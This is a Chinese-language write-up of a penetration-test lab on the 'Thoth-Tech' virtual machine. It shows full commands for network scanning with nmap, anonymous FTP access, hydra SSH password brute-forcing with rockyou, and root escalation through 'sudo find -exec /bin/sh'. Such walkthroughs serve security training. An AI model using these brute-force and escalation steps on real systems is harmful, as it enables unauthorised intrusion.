下载地址：Thoth-Tech.ova
主机发现
使用 arp-scan 扫描局域网：
arp-scan -l
目标 IP：192.168.21.148
端口扫描
端口扫描
nmap --min-rate 10000 -p- 192.168.21.148
服务扫描
nmap -sV -sT -O -p21,22,80 192.168.21.148
开放端口：21（FTP）、22（SSH）、80（HTTP）。
漏洞扫描
nmap --script=vuln -p21,22,80 192.168.21.148
Web 信息收集
访问 80 端口：

检查 F12 开发者工具：

继续查看其他信息：


感觉信息不够，重新扫描一次：
nmap -A 192.168.21.148
发现 FTP 支持匿名登录。
FTP 匿名登录
使用 anonymous 用户登录 FTP：
ftp 192.168.21.148
下载 note.txt：

note.txt 内容提示用户名 pwnlab，密码太弱需要修改。于是使用 hydra 爆破 SSH：
hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt ssh://192.168.21.148
SSH 爆破与登录
爆破成功，使用获取的密码登录 SSH：
ssh pwnlab@192.168.21.148
获取第一个 flag：

信息收集：

发现 find 命令可用：

使用 find 查找可执行文件：
find / -user root -perm /40000 2>/dev/null
查看 sudo 权限：

发现 find 可以在无密码的情况下以 root 权限执行。
权限提升
利用 find 命令提权即可获取 root shell：
sudo find . -exec /bin/sh \; -quit

成功获取 root 权限。